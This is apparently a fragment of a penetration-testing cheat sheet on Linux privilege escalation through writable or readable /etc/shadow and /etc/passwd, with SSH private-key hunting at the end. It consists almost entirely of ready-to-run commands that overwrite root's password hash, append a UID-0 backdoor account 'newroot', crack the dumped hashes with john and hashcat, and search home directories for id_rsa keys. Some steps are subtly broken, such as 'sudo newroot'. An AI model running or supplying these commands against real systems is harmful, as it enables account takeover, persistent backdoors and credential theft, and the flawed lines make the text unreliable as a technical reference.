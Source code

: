 {% tab title="Shadow" %}
Check permissions:

```bash
ls -l /etc/shadow
```

If it is writable, create/modify a user:

```bash
# Generate a new password hash
openssl passwd -1 -salt xyz newpassword
# Replace root's password with the new one
echo 'root:$1$xyz$YOUR_GENERATED_HASH' | chpasswd -e
# Switch to root
su - root
```

If it is readable, copy `shadow` and `passwd` locally and crack them:

{% code overflow="wrap" %}
```bash
# Unshadow files
unshadow passwd shadow > hashes.txt
# Crack with john
john --wordlist=rockyou.txt hashes.txt
# Crack with hashcat
hashcat -m1800 hashes rockyou.txt -r /usr/share/hashcat/rules/best64.rule --force
```
{% endcode %}
{% endtab %}

{% tab title="Passwd" %}
Check the file's permissions:

```
ls -l /etc/passwd
```

If it is writable:

{% code overflow="wrap" %}
```bash
# Generate a new hash
openssl passwd -1 -salt evil password123
# Place the hash between the first and second ':' of root
sed -i 's/^root:[^:]*:/root:$1$evil$F9LZzU/LJjH7ZQZzJX.Zn1:/' /etc/passwd
# Or append root's info to the bottom, changing 'root' to a new user (e.g. 'newroot')
echo "newroot:\$1\$evil\$F9LZzU/LJjH7ZQZzJX.Zn1:0:0:root:/root:/bin/bash" >> /etc/passwd
# Switch user
sudo su
sudo newroot
```
{% endcode %}
{% endtab %}

{% tab title="SSH Keys" %}
```bash
$ sudo find /home -name "id_rsa" -o -name "id_dsa"
```
{% endtab %}
{% endtabs %}
